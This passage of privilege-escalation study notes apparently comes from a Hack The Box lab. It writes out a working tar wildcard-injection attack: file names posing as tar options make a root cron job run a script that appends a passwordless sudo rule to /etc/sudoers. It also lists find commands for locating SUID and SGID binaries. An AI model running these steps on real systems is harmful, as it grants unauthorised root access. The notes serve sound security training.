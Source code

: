 | Character | Significance                                                   |
|-----------|----------------------------------------------------------------|
| *         | An asterisk that can match any number of characters in a file name. |
| ?         | Matches a single character.                                    |
| [ ]       | Brackets enclose characters and can match any single one at the defined position. |
| ~         | A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory. |
| -         | A hyphen within brackets will denote a range of characters.   |


### EX: privilege escalation in tar

- cron job
```shell
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```
- By creating files with these names, when the wildcard is specified, --checkpoint=1 and --checkpoint-action=exec=sh root.sh is passed to tar as command-line options.
```
$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
$ echo "" > "--checkpoint-action=exec=sh root.sh"
$ echo "" > --checkpoint=1

```

- check the dir , now when the job executed it will run our script  
```shell
$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```

## Escaping Restricted Shells
- [escape restricted shells](https://0xffsec.com/handbook/shells/restricted-shells/)


# Permissions-based Privilege Escalation

## Special Permissions
- check [gtfobins](https://gtfobins.github.io/#+suid)
```shell
# find binaries with setuid set
# It may be possible to reverse engineer the program with the SETUID bit set, identify a vulnerability, and exploit this to escalate our privileges. 
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

# find binaries with setgid set
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```
## Sudo Rights Abuse